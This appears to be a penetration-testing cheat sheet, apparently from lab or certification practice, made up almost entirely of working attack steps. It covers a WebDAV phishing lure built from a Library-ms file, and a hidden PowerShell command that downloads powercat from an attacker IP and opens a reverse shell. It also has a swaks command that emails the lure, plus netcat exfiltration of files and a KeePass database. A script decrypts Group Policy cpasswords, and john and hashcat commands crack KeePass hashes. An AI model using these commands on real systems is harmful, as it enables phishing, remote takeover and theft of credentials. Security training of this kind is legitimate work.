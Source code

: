 # 🔹Phishing 

### 1) Enable /webdav Server
```
python3 -m venv myenv
source myenv/bin/activate
pip3 install wsgidav
pip3 install cheroot
mkdir webdav
sudo wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root webdav/
```
### 2) Create 'config.Library-ms'
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.239</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
### 3) Create lnk file (in WINDOWS) with PS payload (powercat)
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.155/powercat.ps1');powercat -c 192.168.45.155 -p 443 -e powershell"

# Powercat
https://github.com/besimorhino/powercat/blob/master/powercat.ps1
```
### 4) Staging 
- Place `powercat.ps1`, `shortcut.lnk`, `config.Library.ms` & `body.txt` in **/Webdav**
- nc -lnvp 1337 (from **/WebDav** to get `powercat.ps1`) <-- this is wrong
- nc -lnvp 443 (to catch reverse shell when .lnk gets clicked)
- `body.txt` has to sound convincing
```
 Hi,

 please click on the attachment
```
### 5) Execution (require mail credentials)

> jim@relia -> has to be legit recipient
```
swaks -t jim@relia.com --from test@relia.com --attach @config.Library-ms --server 192.168.186.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

# 🔹Transfer files (Windows to Linux)
```
# Windows TO
PS C:\temp> cmd /c "nc64.exe 192.168.174.245 4444 < C:\Scheduler\scheduler.exe"

# Linux
nc -lnvp 4444 > scheduler.exe
```


# 🔹Groups.xml
- AKA GPP (Group Policy Preferences)
- `Groups.xml` Likely in found `SYSVOL` folder, or `machines/preferences/group` or `/preferences/group`
- This is related to domain-connected workstation
```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
We can crack the cpassword with the following python script `ggp-decrypt.py`
```
#!/usr/bin/env python3

from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64

if __name__ == "__main__":
    key = b"\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
    iv = b"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0"
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # CHANGE THIS CIPHER TEXT
    ciphertext = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ=="
    ciphertext = base64.b64decode(ciphertext)

    plaintext = cipher.decrypt(ciphertext)
    plaintext = unpad(plaintext, AES.block_size)

    print(plaintext.decode())
```
To use the script do the following
```
python3 -m venv venv
. venv/bin/activate
pip3 install pycryptodome
python3 gpp-decrypt.py
```
# 🔹.kdbx, KeePass
Extract Password Hash
```
keepass2john Database.kdbx > keepass.hash
```
Crack 
```
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash
# If we hashcat we must remember to strip off the initial “Database:” from the hash.
hashcat -m 13400 keepass.hash rockyou.txt -r rockyou-30000.rule --force
```

Transfer files from window using nc
```
Get-Content "Database.kdbx" | .\nc.exe 192.168.45.239 5555
nc -lnvp 5555 > Database.kdbx
```
